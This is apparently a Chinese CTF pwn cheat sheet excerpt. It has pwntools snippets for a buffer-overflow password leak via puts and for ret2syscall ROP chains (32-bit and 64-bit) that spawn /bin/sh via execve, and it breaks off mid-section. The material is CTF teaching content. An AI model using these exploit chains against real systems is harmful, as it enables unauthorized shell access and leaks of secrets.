 ```python
sh.interactive()
```



##### password：

在很多题目中我们可以看见有一些password可以直接

```python
#puts遇到‘\x00’才停止
#将’n’替换成’x00’使得puts(v5)能正确输出输入的name，但如果输入了0x100个垃圾数据的话，会导
#致最后一个’n’并没有读入而导致程序在puts(v5)时会连带下面的password一起输出，这样我们就可以得
#到服务器上的password，所以会将password顺带着打印出来。

payload = """
aaaabaaacaaadaaaeaaafaaagaaahaaaiaaajaaakaaalaaamaaanaaaoaaapaaaqaaaraaasaa
ataaauaaavaaawaaaxaaayaaazaabbaabcaabdaabeaabfaabgaabhaabiaabjaabkaablaabmaa
bnaaboaabpaabqaabraabsaabtaabuaabvaabwaabxaabyaabzaacbaaccaacdaaceaacfaacgaa
chaaciaacjaackaaclaacmaacnaac
"""

io.sendline(payload)
io.recvuntil('aa,')
password = io.recv(33)
```



##### ret2syscall

利用系统调用号不只是简单调用system()

```python
#execve("/bin/sh",NULL,NULL)
#32位syscall
pop_eax_ret = 0x080bb196
pop_edx_ecx_ebx_ret = 0x0806eb90
int_0x80 = 0x08049421
binsh = 0x80be408
payload = flat(['A' * 112, pop_eax_ret, 0xb, pop_edx_ecx_ebx_ret, 0, 0, binsh, int_0x80])
io.sendline(payload)

#系统调用号，即 eax 应该为 0xb
#第一个参数，即 ebx 应该指向 /bin/sh 的地址，其实执行 sh 的地址也可以。
#第二个参数，即 ecx 应该为 0
#第三个参数，即 edx 应该为 0
#64位syscall
pop_rax = 0x46b9f8 
pop_rdi = 0x4016c3 
pop_rdx_rsi = 0x4377f9 
bss = 0x6c2000 
ret = 0x45bac5 
payload  = cyclic(0x50+8) 
payload += p64(pop_rax)+p64(0x0) 
payload += p64(pop_rdx_rsi)+p64(0x10)+p64(bss) 
payload += p64(pop_rdi)+p64(0) 
payload += p64(ret) 
payload += p64(pop_rax)+p64(0x3b) 
payload += p64(pop_rdx_rsi)+p64(0)+p64(0) 
payload += p64(pop_rdi)+p64(bss) 
payload += p64(ret) 
io.sendline(payload) 
io.sendline("/bin/sh\x00")

#多函数调用
pop_eax = 0x080bb2c6 
```